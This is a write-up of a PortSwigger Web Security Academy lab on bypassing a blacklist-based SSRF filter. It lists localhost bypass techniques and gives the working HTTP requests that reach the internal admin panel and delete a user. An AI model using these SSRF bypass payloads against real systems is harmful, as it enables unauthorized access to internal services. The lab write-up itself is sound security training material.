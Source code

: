 # [Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

## Scan

- Burpsuite scanner: detected `Out-of-band resource load (HTTP)`
  - body: `stockApi=http://knbwyjlwtx7jmf2crvupaw6roiuci26vunhd52.oastify.com/product/stock/check?productId=2&storeId=1`

## Analysis

ssrf blocked:

```http
POST /product/stock HTTP/1.1

stockApi=http://localhost/Admin

HTTP/1.1 400 Bad Request

"External stock check blocked for security reasons"
```

The blacklist method has an inherited weakness: incomplete blacklist vulnerability.

Bypass:

- Using an alternative IP representation of `127.0.0.1`: such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to 127.0.0.1. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Exploit

bypass blacklist:

```http
POST /product/stock HTTP/1.1
Host: id.web-security-academy.net
...

stockApi=http%3a//localhosT/admiN
```

Solved:

```http
POST /product/stock HTTP/1.1
Host: id.web-security-academy.net

stockApi=http%3a//localhosT/admiN/delete?username=carlos
```
